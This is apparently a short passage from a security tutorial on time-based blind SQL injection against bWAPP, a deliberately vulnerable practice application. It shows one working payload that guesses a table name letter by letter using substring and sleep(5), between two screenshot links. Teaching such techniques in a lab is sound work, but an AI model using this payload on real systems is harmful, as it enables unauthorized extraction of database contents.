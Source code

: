 [![sqlinjectblindsleep13](/images/sqlinjectblindsleep13.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep13.png)

```sql
' or 1=1 AND substring((SELECT table_name FROM INFORMATION_SCHEMA.TABLES WHERE table_type='base table' AND table_schema='bWAPP' LIMIT 3,1),4,1) = 'r' AND sleep(5)-- -
```

[![sqlinjectblindsleep14](/images/sqlinjectblindsleep14.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep14.png)
